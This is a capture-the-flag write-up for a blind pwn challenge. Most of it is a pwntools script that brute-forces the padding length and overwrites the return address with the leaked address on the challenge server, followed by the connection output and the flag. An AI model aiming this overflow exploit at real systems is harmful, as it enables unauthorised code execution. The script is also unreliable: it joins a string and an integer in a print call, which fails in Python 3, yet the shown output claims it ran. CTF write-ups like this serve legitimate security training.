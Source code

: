 # Warmup To The Darkside

Blind pwn challenge where they give us the address to exploit

Payload:

```
from pwn import *
import time

for i in range(1,100):
 print("Padding: " + i)
 r = remote('0.cloud.chals.io', '30096')
 r.recvuntil(b"at: ")
 add = r.recvline().decode("utf-8")
 payload = b'A' * i
 payload = payload + p64(int(add, base=16))
 r.sendline(payload)
 print(r.recvall(timeout=1).decode("utf-8"))
 r.close()
 time.sleep(1)
```

> Padding: 40
> [+] Opening connection to 0.cloud.chals.io on port 30096: Done
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
Jedi Mind tricks dont work on me >>>
shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}

## Flag

> shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}